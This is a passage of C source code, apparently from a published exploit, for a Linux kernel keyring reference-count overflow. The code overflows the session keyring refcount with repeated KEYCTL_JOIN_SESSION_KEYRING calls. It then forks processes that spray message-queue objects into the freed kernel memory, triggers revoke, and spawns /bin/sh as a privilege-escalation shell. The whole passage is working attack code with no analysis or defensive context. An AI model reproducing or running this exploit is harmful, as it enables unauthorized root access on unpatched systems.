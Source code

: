 ``` c++
        if (i == (0xffffffff - l)) {
            l = l/2;
            sleep(5);
        }
        if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) < 0) {
            perror("keyctl");
            return -1;
        }
    }
    sleep(5);
    /* here we are going to leak the last references to overflow */
    for (i=0; i<5; ++i) {
        if (keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name) < 0) {
            perror("keyctl");
            return -1;
        }
    }

    puts("finished increfing");
    puts("forking...");
    /* allocate msg struct in the kernel rewriting the freed keyring object */
    for (i=0; i<64; i++) {
        pid = fork();
        if (pid == -1) {
            perror("fork");
            return -1;
        }

        if (pid == 0) {
            sleep(2);
            if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
                perror("msgget");
                exit(1);
            }
            for (i = 0; i < 64; i++) {
                if (msgsnd(msqid, &msg, sizeof(msg.mtext), 0) == -1) {
                    perror("msgsnd");
                    exit(1);
                }
            }
            sleep(-1);
            exit(1);
        }
    }
   
    puts("finished forking");
    sleep(5);

    /* call userspace_revoke from kernel */
    puts("caling revoke...");
    if (keyctl(KEYCTL_REVOKE, KEY_SPEC_SESSION_KEYRING) == -1) {
        perror("keyctl_revoke");
    }

    printf("uid=%d, euid=%d\n", getuid(), geteuid());
    execl("/bin/sh", "/bin/sh", NULL);

    return 0;
}
```

